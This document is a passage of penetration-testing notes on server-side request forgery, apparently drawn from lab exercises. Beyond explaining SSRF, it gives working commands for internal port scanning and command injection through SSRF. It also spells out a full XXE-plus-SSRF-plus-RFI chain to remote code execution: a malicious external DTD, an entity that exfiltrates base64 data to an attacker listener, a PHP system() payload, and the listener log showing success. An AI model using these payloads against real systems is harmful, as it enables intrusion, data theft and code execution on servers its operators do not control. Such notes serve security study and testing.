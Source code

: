 #### 1.1. About SSRF

- somewhat similar to File Inclusion, but attack vectors require that the target will internally process URLs/HTTP requests
- this attack will most likely have a higher impact on internal network / localhost
- helps with internal port scanning (where services might be firewalled - aka XSPA)
- helps with internal (sub)domain and IPs/hosts discovery
  - Docker default: `172.17.0.1-254`
  - `http://site.com/?url=https://172.17.0.105:1234` - where `1234` is an open HTTP port (expected error: `SSL23_GET_SERVER_HELLO`; to avoid time-out error)
  - first enumerate common ports on existing internal IP address
- could be limited to internal URLs only (`*.domain.com`)
- SSRF can be used to download remote malicious files and depending on server misconfiguration (`.php`) files can be executed
- can be used to leak information / administrative interfaces / internal services
- allows interaction with internal services that are not supposed to be exposed


#### 1.2. Readme

```
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM
https://github.com/jdonsec/AllThingsSSRF
```

#### 1.3. URL handlers

- `file://, http://, https://` (most common)
- `file:///proc/self/cwd/../config/` (Java)
- `gopher://, dict://, php://, jar://, tftp://`

More: `https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml`

#### 1.4. Detection

Manual detection:
```
$ http "http://$target/url.php?path=http://localhost:22" -b
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

$ $ http "$target/url.php?path=http://localhost:8080" -b
<!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title>
....
```


WFUZZ port scanning via SSRF:
```
# docker run --rm -it wfuzz -z range,0-65535 --hh 2 $target/url.php?path=http://localhost:FUZZ
```

SSRF with ping command:
```
$ http $target/test.asp?u=http%3a//localhost%3a80/cmd.aspx%3fxcmd%3dping+-n+1+10.10.14.13
$ sudo tcpdump -i tun0 icmp 2>/dev/null
06:30:29.301733 IP 10.10.10.57 > 10.10.14.13: ICMP echo request, id 1, seq 9, length 40
06:30:29.301754 IP 10.10.14.13 > 10.10.10.57: ICMP echo reply, id 1, seq 9, length 40
```

#### 1.5. XXE + SSRF + RFI = RCE

XXE Request:
```
$ cat req.xml
<?xml version="1.0" ?>
<!DOCTYPE data SYSTEM "http://10.10.14.13:9999/DTD">
<data>&trigger;</data>
$ http POST 10.10.10.62:56423 @req.xml
```

Local DTD:
```xml
<!ENTITY % f SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1:4/index.php?page=http://10.10.14.13:9999/x>
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://10.10.14.13:9999/?%f;'>">
%all;
```
Note: `http://127.0.0.1:4/index.php?page=http://10.10.14.13:9999/x` will do SSRF on `http://127.0.0.1:4` for RFI.

Local PHP that will execute remotely via XXE + SSRF:
```
$ cat x.php
<?php echo system("whoami");
```

Listener:
```
$ python -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 ...
10.10.10.62 - - [NOLOGS] "GET /DTD HTTP/1.0" 200 -
10.10.10.62 - - [NOLOGS] "GET /x.php HTTP/1.0" 200 -
10.10.10.62 - - [NOLOGS] "GET /?d3d3LWRhdGEKd3d3LWRhdGEK HTTP/1.0" 200 -
```
Note: B64 decodes to `www-data / www-data`
